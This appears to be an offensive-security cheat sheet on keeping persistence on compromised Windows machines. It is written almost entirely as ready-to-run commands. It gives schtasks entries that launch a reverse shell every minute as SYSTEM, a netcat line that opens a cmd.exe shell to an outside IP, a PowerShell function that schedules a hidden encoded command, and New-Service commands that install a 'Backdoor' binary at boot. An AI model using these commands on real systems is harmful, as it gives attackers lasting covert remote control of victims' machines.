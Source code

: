 # Scheduled Tasks

## Permissions: SYSTEM | Administrator

### 1) Schtasks

##### Reverse Shell

    schtasks /create /sc minute /mo 1 /tn "Persistence" /tr C:\ReverseShell.exe /ru "SYSTEM"

##### Netcat

    schtasks /create /sc minute /mo 1 /tn "Persistence" /tr 'c:\Users\User\Downloads/nc.exe 10.10.10.10 443 -e cmd.exe'

### 2) Powershell

    function PersistentTask {

	    $TaskName = "Persistence"
	    $Trigger = New-ScheduledTaskTrigger `
	    -Daily `
	    -At 09:00
	
	    $Action = New-ScheduledTaskAction `
	    -Execute "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" `
	    -Argument "-Sta -Nop -Window Hidden -EncodedCommand <EncodedCommand>" `
	    -WorkingDirectory "C:\Windows\System32"

	    Register-ScheduledTask `
	    -TaskName $TaskName `
	    -Trigger $Trigger `
	    -Action $Action `
	    -Force

    }

    PersistentTask

### 3) Services

PowerShell can be leveraged to create a new Service that, on boot will execute a defined binary / script.

    New-Service -Name "<SERVICE_NAME>" -BinaryPathName "<PATH_TO_BINARY>" -Description "<SERVICE_DESCRIPTION>" -StartupType "Boot" 
    New-Service -Name "Backdoor" -BinaryPathName "C:\Users\Administrator\AppData\Roaming\backdoor.exe" -StartupType "Boot"
